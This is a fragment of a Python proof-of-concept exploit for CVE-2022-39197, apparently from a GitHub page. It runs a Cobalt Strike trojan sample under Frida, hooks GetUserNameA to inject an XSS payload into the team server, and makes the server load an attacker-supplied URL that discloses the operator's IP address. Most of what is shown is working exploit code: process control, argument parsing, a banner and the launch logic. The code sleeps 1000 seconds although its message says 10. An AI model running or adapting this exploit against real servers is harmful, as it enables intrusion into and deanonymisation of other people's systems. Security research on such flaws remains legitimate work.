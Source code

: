 ```
    '''#.replace('http://127.0.0.1/',url)

    script = session.create_script(js)

    script.load()

    #resume
    frida.resume(pid)
    print('[+] Let\'s wait for 10 seconds to ensure the payload sent!')
    #wait for 10 seconds
    time.sleep(1000)
    #kill
    frida.kill(pid)
    print('[+] Done! Killed trojan process.')
    exit(0)

def showbanner():
    #Thanks http://patorjk.com/ for creating this awesome banner
    banner=''' $$$$$$\            $$\                 $$\   $$\     $$$$$$$$\ $$\                     
$$  __$$\           $$ |                $$ |  $$ |    $$  _____|\__|                    
$$ /  \__| $$$$$$\  $$$$$$$\   $$$$$$\  $$ |$$$$$$\   $$ |      $$\  $$$$$$\   $$$$$$\  
$$ |      $$  __$$\ $$  __$$\  \____$$\ $$ |\_$$  _|  $$$$$\    $$ |$$  __$$\ $$  __$$\ 
$$ |      $$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |  $$ |    $$  __|   $$ |$$ |  \__|$$$$$$$$ |
$$ |  $$\ $$ |  $$ |$$ |  $$ |$$  __$$ |$$ |  $$ |$$\ $$ |      $$ |$$ |      $$   ____|
\$$$$$$  |\$$$$$$  |$$$$$$$  |\$$$$$$$ |$$ |  \$$$$  |$$ |      $$ |$$ |      \$$$$$$$\ 
 \______/  \______/ \_______/  \_______|\__|   \____/ \__|      \__|\__|       \_______|
                                                        CVE-2022-39197 PoC by @TomAPU
                                                        
                                                        '''
    print(banner)


parser = argparse.ArgumentParser(description='''This is a PoC for CVE-2022-39197, allowing to disclose CobaltStrike users' IP addresses by an exploit of XSS.(Well, clearly I haven't figure out how to trigger an RCE).
WARNING: This tool works by executing the trojan generated by CobaltStrike and hooking GetUserNameA to add XSS payload to beat the server. So, please, execute it in a virtual machine!
Currently, this POC only supports X86 exe payloads, and of course, works on Windows.

''')

parser.add_argument('-t', '--target', help='target trojan sample', required=False)
parser.add_argument('-u', '--url', help='URL for server to load as img, considering the limit of length, it should be less than 20 bytes', required=False)





if __name__=='__main__':
    showbanner()
    args = parser.parse_args()
    if args.target and args.url:
        if len(args.url)>20:
            print('[-] URL should be shorter than 20 bytes :(')
            exit(-1)
        spoof_user_name(args.target,args.url)
    else:
        parser.print_help()



```